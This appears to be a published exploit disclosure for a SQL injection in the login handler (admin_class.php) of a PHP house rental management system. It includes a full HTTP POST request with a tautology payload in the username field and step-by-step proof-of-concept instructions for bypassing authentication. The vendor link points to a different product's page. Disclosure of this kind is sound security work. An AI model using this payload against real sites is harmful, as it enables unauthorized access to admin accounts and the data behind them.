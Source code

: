 # Best house rental management system project in php admin_class.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php admin_class.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php admin_class.php does not filter the content correctly at the "username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

username=mayuri.infospace%40gmail.com'+and+1%3D1+--%20&password=admin
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

> mayuri.infospace@gmail.com' and 1=1 --

​![image](assets/image-20240918173845-3vf6s8y.png)​

2.Click the login button to successfully enter the homepage.

​![image](assets/image-20240918173823-0lslvs1.png)​

Similarly, by sending a post request, you will see the login success code returned.

​![image](assets/image-20240918174224-r4n08af.png)​

In the admin_class.php source code, you can see that when executing SQL query statements, unfiltered username parameters are directly spliced, resulting in SQL injection vulnerabilities.

​![image](assets/image-20240918174719-aupleka.png)​

‍
